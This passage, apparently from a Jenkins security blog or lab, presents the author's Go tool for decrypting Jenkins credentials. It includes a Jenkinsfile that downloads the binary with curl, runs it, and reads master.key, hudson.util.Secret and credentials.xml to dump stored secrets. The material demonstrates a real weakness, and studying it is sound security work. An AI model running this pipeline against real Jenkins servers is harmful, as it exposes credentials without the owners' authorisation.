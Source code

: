 Go binaries are self-contained and require only the kernel to run.

Side note: Jenkins is using AES-128-ECB algorithm which is not included in the Go standard library. That algorithm was deliberately excluded in 2009 to discourage people from using it.

Github repository for my jenkins-credentials-decryptor tool can be found here.

To see the binary in action run job 131-dumping-credentials, which uses the following Jenkinsfile:

pipeline {
  agent any
  stages {

    stage('Dump credentials') {
      steps {
        script {
           sh '''
             curl -L \
               "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/0.0.5-alpha/jenkins-credentials-decryptor_0.0.5-alpha_$(uname -s)_$(uname -m)" \
                -o jenkins-credentials-decryptor

             chmod +x jenkins-credentials-decryptor

             ./jenkins-credentials-decryptor \
               -m $JENKINS_HOME/secrets/master.key \
               -s $JENKINS_HOME/secrets/hudson.util.Secret \
               -c $JENKINS_HOME/credentials.xml 
           '''
        }
      }
    }

  }
}


![](images/042A2E5038E7419F90E8960EB79D88EA012.png)
